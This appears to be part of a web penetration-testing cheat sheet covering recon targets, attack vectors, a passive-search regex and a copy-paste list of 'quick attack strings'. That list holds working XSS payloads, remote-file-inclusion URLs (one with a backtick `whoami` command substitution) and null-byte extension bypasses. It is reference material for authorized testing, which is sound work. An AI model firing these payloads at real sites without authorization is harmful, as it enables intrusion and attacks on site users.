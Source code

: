 - OPERATING SYSTEM 
- WEB SERVER
- DATABASE SERVERS
- PROGRAMMING LANGUAGES
- PLUGINS/VERSIONS
- OPEN PORTS
- USERNAMES
- SERVICES
- WEB SPIDERING
- GOOGLE HACKING


### VECTORS:
-----------------------------------------------------------------------

- INPUT FORMS
- GET/POST PARAMS
- URI/REST STRUCTURE
- COOKIES
- HEADERS



### SEARCH STRINGS:
-----------------------------------------------------------------------
Just some helpful regex terms to search for passively using Burpsuite or any other web proxy... 
```
fname|phone|id|org_name|name|email
```




### QUICK ATTACK STRINGS:
-----------------------------------------------------------------------
Not a complete list by any means, but when you're manually testing and walking through sites and need a quick copy/paste, this can come in handy... 
```
Company
First Last
username
username@mailinator.com
Password123$
+1416312384
google.com
https://google.com
//google.com
.google.com
https://google.com/.injectx/rfi_vuln.txt
https://google.com/.injectx/rfi_vuln.txt?`whoami`
https://google.com/.injectx/rfi_vuln.txt%00.png
https://google.com/.injectx/rfi_vuln.txt%00.html
12188
01/01/1979
4242424242424242
INJECTX
'>"></INJECTX>(1)
javascript:alert(1)//
"><img/onload=alert(1)>' -- 
"></textarea><img/onload=alert(1)>' -- 
INJECTX'>"><img/src="https://google.com/.injectx/xss_vuln.png"></img>
'>"><iframe/onload=alert(1)></iframe>
INJECTX'>"><ScRiPt>confirm(1)<ScRiPt>
"></textarea><img/onload=alert(1)>' -- // INJECTX <!-- 
"><img/onload=alert(1)>' -- // INJECTX <!-- 
INJECTX'"><h1>X<!-- 
```